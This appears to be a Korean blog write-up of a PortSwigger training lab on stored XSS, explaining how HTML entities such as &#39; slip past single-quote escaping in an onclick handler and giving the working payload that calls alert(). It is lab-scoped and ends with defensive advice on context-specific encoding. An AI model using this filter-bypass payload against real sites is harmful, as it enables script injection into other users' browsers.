

+++
date = '2026-06-05T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped'
summary = "댓글 Website 값이 onclick의 JavaScript 문자열에도 삽입되는 지점에서 HTML 엔티티 디코딩을 이용해 이스케이프를 우회하는 Stored XSS 풀이"
toc = true
tags = ["XSS", "Stored XSS", "JavaScript Context", "HTML Entity", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/xss/write-up-portswigger---stored-xss-into-onclick-event-with-angle-brackets-and-double-quotes-html-encoded-and-single-quotes-and-backslash-escaped/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

> 

댓글의 Website 값은 작성자 링크뿐 아니라 `onclick` 이벤트 핸들러 안의 작은따옴표 문자열에도 삽입된다. 꺾쇠와 큰따옴표는 HTML 인코딩되고 작은따옴표와 역슬래시는 이스케이프된다. HTML 엔티티가 이벤트 핸들러를 실행하기 전에 디코딩되는 특성을 이용해 `alert()`를 호출하면 문제가 해결된다.

### XSS 진단

일반적인 Website 값을 저장하면 다음과 같은 요소가 생성된다.

```html
<a id="author" href="http://example.com"
   onclick="var tracker={track(){}};tracker.track('http://example.com');">
    name
</a>
```

입력값은 큰따옴표 HTML 속성 안의 작은따옴표 JavaScript 문자열이라는 중첩 컨텍스트에 놓인다. 서버에 작은따옴표를 직접 보내면 역슬래시가 추가되지만, `&#39;` 같은 문자 참조를 보내면 서버 필터 단계에서는 작은따옴표로 보이지 않는다. 브라우저는 HTML 속성을 파싱하면서 엔티티를 작은따옴표로 복원한 뒤 이벤트 핸들러를 JavaScript로 컴파일한다.

---

## 익스플로잇

Website 필드에 다음 값을 저장한다.

```html
http:&#39;);alert(&#39;1
```

HTML 엔티티가 디코딩된 뒤 `onclick` 코드는 다음과 같이 해석된다.

```javascript
var tracker={track(){}};
tracker.track('http:');
alert('1');
```

작성자 이름을 클릭하면 원래 추적 함수 호출 뒤에 주입한 `alert()`가 실행된다.


문제가 해결된다.

---

## 정리

여러 파서가 연속해서 데이터를 처리하면 앞 단계의 필터를 뒤 단계의 디코딩으로 우회할 수 있다. 이 랩에서는 `HTML 엔티티 디코딩 → 이벤트 핸들러 JavaScript 컴파일` 순서가 핵심이다. 이벤트 속성에 데이터를 넣는 설계를 피하고, 필요한 경우 JavaScript와 HTML 컨텍스트에 맞는 인코딩을 각각 적용해야 한다.
